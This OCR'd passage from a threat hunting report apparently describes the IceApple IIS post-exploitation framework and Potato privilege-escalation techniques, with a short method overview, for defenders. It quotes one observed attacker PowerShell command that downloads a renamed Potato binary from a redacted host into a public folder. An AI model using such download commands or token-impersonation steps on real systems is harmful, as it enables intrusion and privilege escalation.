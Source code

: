 13 IceApple is a sophisticated .NET\-based post\-exploitation framework that has been seen targeting IIS 
servers. The framework is modular, allowing a range of functionality. The emergence of new and evolving IceApple modules over 
the past year indicates that this framework remains under active development. 
Reflectively loading .NET assemblies, which involves executing the assembly directly within the memory of a process, can be a 
powerful and potentially stealthy way for adversaries to pursue their mission objectives.
13 
For a detailed discussion of IceApple and the functionality of its modules, see OverWatchs research paper on the topic,
Ice Apple: A Novel Internet Information Services (IIS) Post\-Exploitation Framework.
Nowhere to Hide: 2022 Falcon OverWatch Threat Hunting Report
CrowdStrike
32
Sweet Potato
(and Other Potato Variations)
Privilege Escalation
In 2016, a privilege escalation vulnerability known as Hot Potato was discovered within the Windows operating system. The 
fundamental concept is to force a system to authenticate and capture the security token. Over time, variations of this technique 
were created with similar names such as Juicy Potato, Lonely Potato and Rogue Potato but relied on the same underlying 
method of capturing credentials in transit. More recently in 2020, a script called Sweet Potato was written to bundle multiple 
Potato exploits, which can be run standalone or through attack frameworks such as PowerShell Empire and Cobalt Strike.
Overview of method:
1\. Forces NT AUTHORITYSYSTEM to authenticate via NTLM 
1\. Captures authentication attempt to acquire security token 
1\. Impersonates if the account will allow it (the account must have SeImpersonatePrivilege rights)
In the Wild
Despite variations of this tool dating back to 2016, it continues to find a place in adversary toolkits due to consistent innovation and 
ease of use. As with so many other exploitation tools, a push to one\-click solutions lowers the barrier to entry for adversaries and 
can make it easier for adversary groups to standardize procedures. 
OverWatch Observations
Sweet Potato is a collection of scripts that can be staged and downloaded from any adversary\-controlled domain or IP. OverWatch 
often sees the binary renamed as its downloaded to the victim host, and as a result, hash identification is useful for locating Potato 
binaries. 
Example of a renamed Potato binary:
powershell Invoke\-WebRequest \-Uri
"http:
\[REDACTED]kumpir
.exe" \-OutFile
"c:
userspublickumpir
.exe"
Trending Tools
In many cases, it takes time for adversaries to adopt new techniques 
and tools into their operations. The OverWatch team is interested 
when tools have been around for years but appear to be increasing in 
popularity. This gives hunters an idea of where things are trending and 
what adversaries are finding most effective. 
Nowhere to Hide: 2022 Falcon OverWatch Threat Hunting Report
CrowdStrike
33
ngrok, fatedier
and Other Reverse Proxy Tooling
Command and Control and Exfiltration